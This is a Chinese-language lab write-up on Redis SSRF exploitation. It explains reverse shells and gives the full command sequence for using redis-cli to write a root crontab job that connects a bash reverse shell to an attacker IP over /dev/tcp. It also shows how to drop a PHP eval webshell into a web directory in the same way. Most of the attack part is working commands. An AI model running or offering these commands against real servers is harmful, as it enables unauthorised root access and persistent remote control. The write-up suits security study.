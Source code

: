 # Redis SSRF Lab

ref: https://blog.csdn.net/mole_exp/article/details/124640099

## 原理

反向 shell: 有別於一般的遠端 ssh，使用個人電腦 ssh 遠端電腦。反向 shell 是讓受害電腦主動開啟 shell 後把 stdin/stdout/stderr 等傳遞給攻擊者。

### 受害者端

重要命令(每款 OS 與版本, 可能需要不同命令, 基於權限設置差異)

`bash -i >& /dev/tcp/192.XXX.X.XXX/443 0>&1`

- bash: 開啟 bash shell
- -i: 開啟交互式 shell
- `>&` /dev/tcp/192.XXX.X.XXX/443: 將 stdout/stderr 等重定向到指定的 TCP 連接
- `0>&1`: 將 stdin 重定向到 stdout

等於是開啟一個 bash，主動把 IO 給遠端，讓他們操作。

### 攻擊者端

遠端使用的方法是 `ncat -l -v -p 443`

- -l: 監聽模式
- -v: 雙向通訊模式
- -p 443: 指定監聽的 port 為 443

如此可以接收受害電腦上 shell 的輸入和輸出。

## 使用 redis-cli 植入 crontab 木馬

假設:

- 已經成功劫持 redis-cli，可以自由操作受害機 redis
- redis 可以執行任意命令
- redis 擁有足夠權限

以下描述攻擊順序

- 先使用 `redis-cli flushall` 清除所有 key-value pair，避免殘餘資料影響後續操作
- 在 redis 中 `set` key-value pair，其中 value 是一個 crontab 任務指令。例如：`\n\n\n\n\n* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.3.36/443 0>&1'\n\n\n\n\n`，
- 此處換行符號(`\n`)為任意多個，避免後續動作中該段文字和其餘文字連到一起互相干擾。
- 此處 `* * * * * /bin/bash -c` 是 crontab 任務指令的格式，其中 `* * * * *` 表示每分鐘執行一次，`/bin/bash -c 'XXX'` 是要執行的命令。
- 接著利用 redis 的備份方案可以把這個 key-value pair `save` 到 local file 上，如果該 file 會被 OS 視為 crontab 任務指令自動被執行時，就表示攻擊成功了。
- 所以利用 `redis-cli config set dir /var/spool/cron` 讓 redis 的備份目錄變更到 crontab 目錄
- 接著用 `redis-cli config set dbfilename root` 讓備份的 file 名稱變更為 root，此時該 crontab 任務會被 root 身分執行。
- 最後寫下 `redis-cli save` 將 crontab 任務指令寫入到 `/var/spool/cron/root` 上，完成攻擊。

## 使用 redis-cli 植入 webshell 木馬

假設:

- 已經成功劫持 redis-cli，可以自由操作受害機 redis
- redis 可以執行任意命令
- redis 擁有足夠權限
- 存在已執行的網頁伺服器，該 server 可以執行任意檔案

以下描述攻擊原理

類似 crontab 木馬，差異在 redis 中 `set` 的 value 是 webshell 程式碼，例如:

```php
<?php eval($_GET['cmd']); ?>
```

接著把 redis 備份到網頁後端可以 access 的資料夾中。

最後因為 webshell 存在於網頁後端，access 範圍，使用任意檔案讀取漏洞可以調用該 webshell 來執行任意命令。
